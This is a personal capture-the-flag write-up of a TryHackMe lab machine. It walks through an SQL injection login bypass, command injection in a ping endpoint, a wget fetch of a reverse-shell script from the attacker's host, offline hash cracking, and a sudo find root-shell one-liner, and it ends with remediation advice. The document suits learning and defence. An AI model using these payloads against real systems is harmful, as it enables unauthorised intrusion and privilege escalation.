

# [Operation Promotion]


| **Platform**       | TryHackMe                                               |
| ------------------ | ------------------------------------------------------- |
| **Difficulty**     | Easy                                                    |
| **OS**             | Linux                                                   |
| **Date completed** | 2026-08-06                                              |
| **Key techniques** | `SQLi` `Command Injection` `Sudo Abuse` `Brute Forcing` |

---

## TL;DR

> Enumerating the website gives us access to a vulnerable admin login panel, where we can login as an admin  and inject commands into a legitimate application function. Once on the target system, credentials can be discovered and brute forced to gain elevated privileges on an SSH session. Finally, we can abuse sudo privileges to gain a root shell and complete the machine.

---

## Recon

We can run an initial nmap scan to understand the target system.

```bash
nmap -p- -T4 10.48.187.141
```



Now we can run a more detailed port scan to enumerate the active services and any possible vulnerabilities.

```Shell
nmap -p22,80,139,445 -sC -sV 10.48.187.141
```

![[Pasted image 20260806145448.png]]

| Port | Service                  | Notes                                                                                            |
| ---- | ------------------------ | ------------------------------------------------------------------------------------------------ |
| 22   | OpenSSH 9.6p1            | Standard, may be useful later for privesc                                                        |
| 80   | Apache 2.4.58            | `robots.txt` has a disallowed entry, `/admin`, which we can check out later                      |
| 139  | netbios-ssn Samba smbd 4 |                                                                                                  |
| 445  | netbios-ssn Samba smbd 4 | This tells us that the OS is Linux and we may be able to authenticate into the shares as a guest |
Pulling up the Apache site just shows a static webpage with no links or useful information. We may be able to use the email at the bottom, `careers@recruitcorp.thm`, for a brute-force attack later.

![[Pasted image 20260806150159.png]]

## Enumeration

The most interesting find are the samba shares, which we can enumerate using `crackmapexec`. These shares could contain useful files such as credentials, config files, or backups.

```Shell
crackmapexec smb 10.48.107.141 -u 'username' -p 'password' --shares
```

![[Pasted image 20260806151059.png]]

It looks like we have READ access on the public share, let's check that now.

```Shell
smbclient \\\\10.48.187.141\\public
```

![[Pasted image 20260806151220.png]]

We authenticate to the public share as a guest by leaving the password field blank and find a README.txt file. Unfortunately, we cannot access the `IPC$` share. Let's read the file we extracted now.

![[Pasted image 20260806151347.png]]

A dead end. Our only remaining path is the static website, where we can check the `/admin` page.

![[Pasted image 20260806151528.png]]

Seeing as we don't have credentials, we can see if these fields are vulnerable to SQL injection.

## Login as Admin

We can try bypassing the legitimate login function by injecting a comment `--` to the end of our payload, which will be `admin'` in the username field.

![[Pasted image 20260806154802.png]]

This works, and we're presented with `dashboard.php` which gives us access to a **User Lookup** feature. It appears that there are accounts with ID's from 1-9. Inputting any other value results in `no user with that ID.` There's nothing significant except for a note attached to the user with an ID of 7.

![[Pasted image 20260806155210.png]]

The note tells us that this user is the service account for `/admin/sysmaint/ping.php`. We can try accessing this endpoint ourselves. 

## www-data reverse shell

![[Pasted image 20260806155410.png]]

The endpoint lets us interact without authentication. We can pass any target with the `host` parameter, and see what the result is.

```shell
http://10.49.142.135/admin/sysmaint-checks/ping.php?host=localhost
```

![[Pasted image 20260806155529.png]]

From this result, we can assume that our input is being passed into a `ping -c 1` command on a CLI. To achieve command injection, we have to append our own command while being careful not to break the original command. The first payload we'll try is `localhost; whoami`

```Shell
http://10.49.142.135/admin/sysmaint-checks/ping.php?host=localhost; whoami
```

![[Pasted image 20260806155741.png]]

Our result is `www-data`. This confirms our ability to perform command injection. We confirm python is running on the target system by injecting `localhost; which python3`. 

![[Pasted image 20260806160025.png]]

Using [revshells](https://www.revshells.com) we generate a python reverse shell and start an HTTP server using Python's built in `http.server` module.
```Shell
python3 -m http.server 8081
```

![[Pasted image 20260806160224.png]]

Back on the target machine, we inject `localhost; wget http://<IP>/rev.py`

![[Pasted image 20260806162722.png]]

The shell file was successfully saved to the target machine. Now we can run `chmod +x` on the file to grant it executable permissions. Because we are injecting commands into a URL, we need to URL encode special characters. The URL encoded version of `+` is `%2B`. Now we can set up a listener, which I use [Penelope](https://github.com/brightio/penelope) to handle. 

![[Pasted image 20260806160119.png]]

Now to gain the shell, we just inject `./rev.py`

![[Pasted image 20260806163156.png]]

## Privilege Escalation

We've successfully gotten a `www-data` shell on the host. Now we can start enumerating for potential privilege escalation vectors. Looking around we find a config folder that contains a file named `db.conf`. The file provides us with a username and password hash, which we can start cracking with hashcat to potentially use to SSH in.

![[Pasted image 20260806163603.png]]

After a lengthy cracking attempt, I could not retrieve the plaintext password. I had to lookup a  writeup, and it turns out you have to scrape the static site for keywords and build a custom wordlist. I built a custom wordlist using by manually scraping a few keywords, and transformed the wordlist using hashcat's dive rule.

```shell
hashcat words -r /usr/share/hashcat/rules/dive.rule --stdout > mutated_words.txt
```

![[Pasted image 20260806164246.png]]

Now we can feed the mutated wordlist into hashcat and see if we can crack the hash any faster.

```Shell
hashcat -m 3200 -a 0 hash.txt mutated_wordlist.txt
```

![[Pasted image 20260806165310.png]]

We successfully found `jfords` password and can now try this to login to SSH.

```Shell
ssh jford@<ip>
```

![[Pasted image 20260806165437.png]]

## Root Shell

I begin enumerating the system for local privilege escalation vectors. Immediately, I notice that `jford` is allowed to run `find` with `sudo`.  

![[Pasted image 20260806165543.png]]

We do a quick check on [GTFOBins](https://gtfobins.org) to find a command that can spawn a root shell.

![[Pasted image 20260806165623.png]]

```Shell
find . -exec /bin/sh \; -quit
```

![[Pasted image 20260806165902.png]]

Finally, we obtain a root shell and complete the machine.

## Why it worked

There were a few vulnerabilities within this application:
- The login panel was susceptible to SQL injection. This allowed us to authenticate as an admin user without any valid credentials
- Command injection allowed RCE (Remote Code Execution) because the developer assumed that users would only input hostnames. This assumption caused the developer to overlook the fact that they weren't escaping user input, allowing commands to be executed into the CLI.

Misconfigurations and poor security hygiene allowed us to elevate privileges from there:
- A password hash belonging to `jford` was stored on the system. We took the hash and cracked it offline to authenticate properly as `jford` into SSH.
- `jford` was given the ability to run the `find` command as the `root` user with `sudo`. The `find` command can execute commands such as the one above by passing the flag `-exec`. This effectively gives `jford` access to any command on the file system with elevated privileges.

## Remediation
- Parameterised queries on the login page
- Escape user input on `ping.php`
- Refrain from storing passwords or their hashes locally
- Review permissions given to users and follow the principle of least privilege

---

<sub>Written up for my own learning. All testing performed against systems I am
explicitly authorised to test.</sub>
